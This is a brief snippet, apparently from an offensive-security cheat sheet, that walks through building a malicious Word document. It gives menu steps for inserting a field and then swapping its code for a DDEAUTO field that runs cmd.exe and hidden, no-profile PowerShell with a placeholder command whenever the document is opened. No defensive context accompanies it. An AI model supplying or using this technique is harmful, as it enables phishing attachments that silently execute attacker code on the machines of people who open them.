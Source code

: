 ### create Dynamic Data Exchange inside Word document
```
Insert > Quick Parts (Icon with arrow down) > Field
= (Formula) > OK
Right click on "!Unexpected End of Formula" > Toggle Field Codes
Replace { = \* MERGEFORMAT } > { DDEAUTO "c:\\windows\\system32\\cmd.exe /c powershell.exe -nop -w hidden <command>" "title"}
```

